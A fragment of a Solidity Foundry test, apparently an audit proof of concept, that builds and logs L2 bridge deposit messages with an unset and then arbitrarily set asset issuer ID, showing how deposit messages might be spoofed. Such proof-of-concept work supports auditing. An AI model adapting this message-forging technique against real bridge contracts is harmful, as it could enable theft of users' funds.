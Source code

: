 ```solidity 
        alice = vm.addr(1);
        bob = vm.addr(2);
        deal(address(alice), 1 ether);
    }

    function testExploitHere() public {
        uint256 l2MintedAmount = 100 * 10 ** 9;

        bytes memory depositMessage1 = abi.encodePacked(
            assetIssuerID, // this will be 0000
            uint256(MessageType.DEPOSIT_TO_ADDRESS),
            bytes32(uint256(uint160(usdt))),
            uint256(0), // token_id = 0 for all erc20 deposits
            bytes32(uint256(uint160(msg.sender))),
            alice,
            l2MintedAmount,
            uint256(18)
        );

        emit LogBytes(depositMessage1);

        bytes32 id = bytes32(uint256(uint160(alice))); // any address because the issuerID address is unknown currently which we believe its l2 bridge address

        setAssetIssuerID(id);

        bytes memory depositMessage2 = abi.encodePacked(
            assetIssuerID, // this will be 0000
            uint256(MessageType.DEPOSIT_TO_ADDRESS),
            bytes32(uint256(uint160(usdt))),
            uint256(0), // token_id = 0 for all erc20 deposits
            bytes32(uint256(uint160(msg.sender))),
            alice,
            l2MintedAmount,
            uint256(18)
        );

        emit LogBytes(depositMessage2);
    }

    function setAssetIssuerID(bytes32 id) public {
        assetIssuerID = id;
    }
}


```